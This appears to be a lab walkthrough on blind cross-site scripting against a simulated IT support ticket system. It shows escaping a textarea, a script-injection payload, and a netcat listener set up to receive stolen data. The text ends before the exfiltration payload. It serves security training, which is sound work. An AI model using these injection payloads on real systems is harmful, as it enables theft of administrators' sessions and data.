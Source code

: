 ### Setting Up the Lab Environment

This task demonstrates Blind XSS in a realistic support ticket system, simulating how attackers might target administrative interfaces.

### Initial Reconnaissance

**Target**: Acme IT Support website support ticket system

**Process**:
1. Create user account through signup process
2. Navigate to Support Tickets section
3. Create test ticket to understand functionality
4. Analyze how input is processed and displayed

### Basic Vulnerability Testing

**Initial Test**: Create ticket with simple content
```
Subject: Test
Content: test
```

**Source Code Analysis**: Input reflected in textarea element
```html
<textarea>test</textarea>
```

### Confirming Textarea Escape

**Test Payload**: Verify ability to escape textarea context
```
</textarea>test
```

**Result**: Successfully breaks out of textarea element
```html
<textarea></textarea>test
```

### Confirming JavaScript Execution

**XSS Payload**: Test basic script execution
```javascript
</textarea><script>alert('THM');</script>
```

**Result**: Alert box confirms JavaScript execution capability

### Advanced Payload Development

### Setting Up Data Exfiltration

**Netcat Listener**: Prepare to receive stolen data
```bash
nc -nlvp 9001
```
